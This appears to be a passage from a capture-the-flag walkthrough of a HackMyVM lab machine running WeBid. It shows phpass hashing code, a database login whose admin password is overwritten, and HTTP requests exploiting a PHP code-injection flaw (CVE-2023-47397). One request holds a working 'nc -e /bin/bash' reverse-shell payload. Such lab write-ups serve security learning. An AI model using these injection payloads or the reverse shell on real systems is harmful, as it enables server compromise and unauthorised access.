        function __construct($iteration_count_log2, $portable_hashes)
        {
                $this->itoa64 = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz';

                if ($iteration_count_log2 < 4 || $iteration_count_log2 > 31)
                        $iteration_count_log2 = 8;
                $this->iteration_count_log2 = $iteration_count_log2;

                $this->portable_hashes = $portable_hashes;

                $this->random_state = microtime();
                if (function_exists('getmypid'))
                        $this->random_state .= getmypid();
        }

        function get_random_bytes($count)
        {
                $output = '';
                if (@is_readable('/dev/urandom') &&
                    ($fh = @fopen('/dev/urandom', 'rb'))) {
                        $output = fread($fh, $count);
                        fclose($fh);
                }

                if (strlen($output) < $count) {
                        $output = '';
                        for ($i = 0; $i < $count; $i += 16) {
                                $this->random_state =
                                    md5(microtime() . $this->random_state);
                                $output .=
                                    pack('H*', md5($this->random_state));
                        }
                        $output = substr($output, 0, $count);
                }

                return $output;
        }

        function encode64($input, $count)
        {
                $output = '';
                $i = 0;
                do {
                        $value = ord($input[$i++]);
                        $output .= $this->itoa64[$value & 0x3f];
                        if ($i < $count)
                                $value |= ord($input[$i]) << 8;
                        $output .= $this->itoa64[($value >> 6) & 0x3f];
                        if ($i++ >= $count)
                                break;
                        if ($i < $count)
                                $value |= ord($input[$i]) << 16;
                        $output .= $this->itoa64[($value >> 12) & 0x3f];
                        if ($i++ >= $count)
                                break;
                        $output .= $this->itoa64[($value >> 18) & 0x3f];
                } while ($i < $count);

                return $output;
        }

        function gensalt_private($input)
        {
                $output = '$P$';
                $output .= $this->itoa64[min($this->iteration_count_log2 +
                        ((PHP_VERSION >= '5') ? 5 : 3), 30)];
                $output .= $this->encode64($input, 6);

                return $output;
        }

        function crypt_private($password, $setting)
        {
                $output = '*0';
                if (substr($setting, 0, 2) == $output)
                        $output = '*1';

                $id = substr($setting, 0, 3);
                # We use "$P$", phpBB3 uses "$H$" for the same thing
                if ($id != '$P$' && $id != '$H$')
                        return $output;

                $count_log2 = strpos($this->itoa64, $setting[3]);
                if ($count_log2 < 7 || $count_log2 > 30)
                        return $output;

                $count = 1 << $count_log2;

                $salt = substr($setting, 4, 8);
                if (strlen($salt) != 8)
                        return $output;

                # We're kind of forced to use MD5 here since it's the only
                # cryptographic primitive available in all versions of PHP
                # currently in use.  To implement our own low-level crypto
                # in PHP would result in much worse performance and
                # consequently in lower iteration counts and hashes that are
                # quicker to crack (by non-PHP code).
                if (PHP_VERSION >= '5') {
                        $hash = md5($salt . $password, TRUE);
                        do {
                                $hash = md5($hash . $password, TRUE);
                        } while (--$count);
                } else {
                        $hash = pack('H*', md5($salt . $password));
                        do {
                                $hash = pack('H*', md5($hash . $password));
                        } while (--$count);
                }

                $output = substr($setting, 0, 12);
                $output .= $this->encode64($hash, 16);

                return $output;
        }

        function gensalt_extended($input)
        {
                $count_log2 = min($this->iteration_count_log2 + 8, 24);
                # This should be odd to not reveal weak DES keys, and the
                # maximum valid value is (2**24 - 1) which is odd anyway.
                $count = (1 << $count_log2) - 1;

                $output = '_';
                $output .= $this->itoa64[$count & 0x3f];
                $output .= $this->itoa64[($count >> 6) & 0x3f];
                $output .= $this->itoa64[($count >> 12) & 0x3f];
                $output .= $this->itoa64[($count >> 18) & 0x3f];

                $output .= $this->encode64($input, 3);

                return $output;
        }

        function gensalt_blowfish($input)
        {
                # This one needs to use a different order of characters and a
                # different encoding scheme from the one in encode64() above.
                # We care because the last character in our encoded string will
                # only represent 2 bits.  While two known implementations of
                # bcrypt will happily accept and correct a salt string which
                # has the 4 unused bits set to non-zero, we do not want to take
                # chances and we also do not want to waste an additional byte
                # of entropy.
                $itoa64 = './ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';

                $output = '$2a$';
                $output .= chr(ord('0') + $this->iteration_count_log2 / 10);
                $output .= chr(ord('0') + $this->iteration_count_log2 % 10);
                $output .= '$';

                $i = 0;
                do {
                        $c1 = ord($input[$i++]);
                        $output .= $itoa64[$c1 >> 2];
                        $c1 = ($c1 & 0x03) << 4;
                        if ($i >= 16) {
                                $output .= $itoa64[$c1];
                                break;
                        }

                        $c2 = ord($input[$i++]);
                        $c1 |= $c2 >> 4;
                        $output .= $itoa64[$c1];
                        $c1 = ($c2 & 0x0f) << 2;

                        $c2 = ord($input[$i++]);
                        $c1 |= $c2 >> 6;
                        $output .= $itoa64[$c1];
                        $output .= $itoa64[$c2 & 0x3f];
                } while (1);

                return $output;
        }

        function HashPassword($password)
        {
                $random = '';

                if (CRYPT_BLOWFISH == 1 && !$this->portable_hashes) {
                        $random = $this->get_random_bytes(16);
                        $hash =
                            crypt($password, $this->gensalt_blowfish($random));
                        if (strlen($hash) == 60)
                                return $hash;
                }

                if (CRYPT_EXT_DES == 1 && !$this->portable_hashes) {
                        if (strlen($random) < 3)
                                $random = $this->get_random_bytes(3);
                        $hash =
                            crypt($password, $this->gensalt_extended($random));
                        if (strlen($hash) == 20)
                                return $hash;
                }

                if (strlen($random) < 6)
                        $random = $this->get_random_bytes(6);
                $hash =
                    $this->crypt_private($password,
                    $this->gensalt_private($random));
                if (strlen($hash) == 34)
                        return $hash;

                # Returning '*' on error is safe here, but would _not_ be safe
                # in a crypt(3)-like function used _both_ for generating new
                # hashes and for validating passwords against existing hashes.
                return '*';
        }

        function CheckPassword($password, $stored_hash)
        {
                $hash = $this->crypt_private($password, $stored_hash);
                if ($hash[0] == '*')
                        $hash = crypt($password, $stored_hash);

                return $hash == $stored_hash;
        }
}

$MD5_PREFIX = "267f50041fb67d158f195ac85c364875";
$password = "pass";

$password_md5 = md5($MD5_PREFIX . $password);
print "$password_md5:".$password_md5."\n";

$phpass = new PasswordHash(8, false);
$password_hash = $phpass->HashPassword($password);
print "password_hash:".$password_hash."\n";

?>

> php hashpass.php  
ac0dda55b8d0850ab7da04513caebf34:ac0dda55b8d0850ab7da04513caebf34
password_hash:$2a$08$LO8.YXrGhyh71azp0OUAJ.Mj2BPM63CeLAi7Zf/ERAEedQ.wHt0Aa

> mysql -uwebiduser -pWtPTIC4FhCLnR7
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
Server version: 10.11.4-MariaDB-1~deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> use webid
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

MariaDB [webid]> update webid_adminusers set password = "$2a$08$LO8.YXrGhyh71azp0OUAJ.Mj2BPM63CeLAi7Zf/ERAEedQ.wHt0Aa" where id = 1;
Query OK, 1 row affected (0.006 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [webid]> select * from webid_adminusers;
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
| id | username | password                                                     | password_type | hash  | created             | lastlogin           | status | notes |
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
|  1 | admin    | $2a$08$LO8.YXrGhyh71azp0OUAJ.Mj2BPM63CeLAi7Zf/ERAEedQ.wHt0Aa |             1 | st82m | 2023-11-13 10:51:51 | 2023-11-18 08:40:05 |      1 | NULL  |
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
1 row in set (0.002 sec)

```

I could log in to the website (WeBid Administration back-end).


I found out that there is RCE([CVE-2023-47397](https://liotree.github.io/2023/webid.html)).
- burp
```
POST /webid/admin/categoriestrans.php?lang=.. HTTP/1.1
Host: christmas.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: PHPSESSID=q2elgq9hj5ftmd3qergeg9e4n0; UserAuthenticated=true; 2FA_passed=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1

categories[123);system("whoami");/*]=test 


HTTP/1.1 200 OK
Date: Mon, 25 Dec 2023 23:37:52 GMT
Server: Apache/2.4.57 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 48115
Connection: close
Content-Type: text/html; charset=UTF-8

www-data
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html dir="ltr">
<head>
...
```

So, I tried getting a www-data user shell.
- burp
```
POST /webid/admin/categoriestrans.php?lang=.. HTTP/1.1
Host: christmas.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: PHPSESSID=q2elgq9hj5ftmd3qergeg9e4n0; UserAuthenticated=true; 2FA_passed=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Content-Length: 44

categories[123);system("nc%20-e%20/bin/bash%20192.168.0.4%201234");/*]=test 
```
- nc
```
> nc -lvnp 1234             
Listening on 0.0.0.0 1234
Connection received on 192.168.0.26 42110
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I could not get useful information.
